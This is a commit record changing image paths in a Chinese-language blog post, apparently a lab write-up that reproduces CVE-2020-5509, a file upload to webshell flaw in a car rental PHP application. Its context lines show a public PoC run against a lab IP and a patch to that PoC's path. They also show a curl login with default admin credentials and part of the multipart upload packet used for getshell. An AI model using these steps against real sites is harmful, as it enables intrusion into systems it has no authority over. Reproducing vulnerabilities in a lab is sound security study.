

Before and after one commit to M4tir/M4tir.github.io, a Jekyll site: the page built from _posts/2020-01-15-CVE-2020-5509-Repetition.md, in a window 1280 px wide. Shown: the part 335-2241 px from the top of the page at 76% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1898 px from its top, so only the background shows below that.

Commit message:
Update 2020-01-15-CVE-2020-5509-Repetition.md

````diff
--- a/_posts/2020-01-15-CVE-2020-5509-Repetition.md
+++ b/_posts/2020-01-15-CVE-2020-5509-Repetition.md
@@ -15,39 +15,39 @@ Windows server 2012 R2 阿帕奇 PHP7.5
 搭建时需要新建一个数据库,然后将官方给的.sql数据文件导入到那个库里!
 之后配置config.php信息,(要配置两个,一个是\includes\config.php,一个是\admin\config.php)
 搭建完成图:
-![](https://m4tir.github.io/cve-2020-5509/1.png)
+![](https://m4tir.github.io/assets/cve-2020-5509/1.png)
 之后就可以开始愉快地复现了!
 # **二.复现过程:**
 我们先用国外人写的poc打一下靶场:
 ```
 python CVE-2020-5509.py 192.168.1.5(目标ip)
 ```
-![](https://m4tir.github.io/cve-2020-5509/2.png)
+![](https://m4tir.github.io/assets/cve-2020-5509/2.png)
 ```
 [!] Failed to authenticate
 ```
 **难道失败了?我重新看了一遍国外人写的poc,原来有处坑!**
-![](https://m4tir.github.io/cve-2020-5509/3.png)
+![](https://m4tir.github.io/assets/cve-2020-5509/3.png)
 ```
 /carrentalproject/carrental/admin/changeimage1.php ##我们实际上是搭建在根目录的，不知道他这个/carrentalproject/carrental/目录是怎么来的，正是因为如此，才会获取不到tok值!
 ```
 我们改一下poc!
-![](https://m4tir.github.io/cve-2020-5509/4.png)
+![](https://m4tir.github.io/assets/cve-2020-5509/4.png)
 **ba把路径中的/carrentalproject/carrental去掉,再试试!**
-![](https://m4tir.github.io/cve-2020-5509/5.png)
+![](https://m4tir.github.io/assets/cve-2020-5509/5.png)
 **ok，成功了!(但是它的终端有点奇怪,不管他)**
 **国外友人的工具我用的不适手,于是便打算自己写一个图形化的工具!**
 # **三.工具编写(.e):**
 **话不多说，先构建界面,再导入一个精易模块:**
-![](https://m4tir.github.io/cve-2020-5509/6.png)
+![](https://m4tir.github.io/assets/cve-2020-5509/6.png)
 **然后双击"Getshell"按钮，进入代码界面!**
 **Getshell的第一步是要获取到Cookie，来进行鉴权文件上传!**
-![](https://m4tir.github.io/cve-2020-5509/7.png)
+![](https://m4tir.github.io/assets/cve-2020-5509/7.png)
 ```
 curl -H "http://website/admin/index.php/" -D "username=admin&password=Test@12345&login="
 ```
 **然后就通过鉴权文件上传来进行getshell**
-![](https://m4tir.github.io/cve-2020-5509/8.png)
+![](https://m4tir.github.io/assets/cve-2020-5509/8.png)
 **上传包:**
 ```
 --I am lonely
@@ -66,10 +66,10 @@ Content-Disposition: form-data; name="update"
 Content-Type: multipart/form-data; boundary="I am lonely"
 ```
 然后尝试一下:
-![](https://m4tir.github.io/cve-2020-5509/9.png)
+![](https://m4tir.github.io/assets/cve-2020-5509/9.png)
 **成功上传!**
 **源码就不发了,因为所有代码就这几行:**
-![](https://m4tir.github.io/cve-2020-5509/10.png)
+![](https://m4tir.github.io/assets/cve-2020-5509/10.png)
 **end！**
 
 参考文章:
````
